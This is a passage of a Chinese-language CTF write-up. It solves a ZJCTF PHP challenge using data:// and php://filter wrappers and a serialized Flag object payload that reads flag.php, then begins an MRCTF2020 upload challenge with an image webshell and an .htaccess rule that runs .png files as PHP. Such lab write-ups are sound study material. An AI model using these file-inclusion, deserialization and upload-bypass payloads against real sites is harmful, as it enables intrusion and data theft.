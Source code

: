 代码审计一下，此处考点是文件包含漏洞

text 参数可以使用 `php://input 伪协议`，或者使用 `data 伪协议` 

payload:

```php
?text=data://text/plain,welcome+to+the+zjctf
```

file参数提示要包含 useless.php ,于是我们可以先使用 `php://filter 伪协议`读取源码：

```php
file=php://filter/read=convert.base64-encode/resource=useless.php
```

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

读取到了useless.php 源码，发现有一个 __tostring() 方法，我们在输出对象时会调用该方法，

我们再分析一下 index.php ,发现我们传的参数 password需要序列化。

因此，我们需要创建一个 Flag 对象， $file=flag.php 即可。

```php
password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

![image-20221230143321116](https://s2.loli.net/2022/12/30/MeDOA9HPYbcN2p4.png)





## [MRCTF2020]你传你🐎呢

我们首先上传一张图片马：

![image-20221230144325738](https://s2.loli.net/2022/12/30/boaU2ETRF9NDCJO.png)



然后我们上传 `.htaccess` 文件 ，目的是将 png 文件以 php脚本进行解析：

```php
AddType application/x-httpd-php .png
```
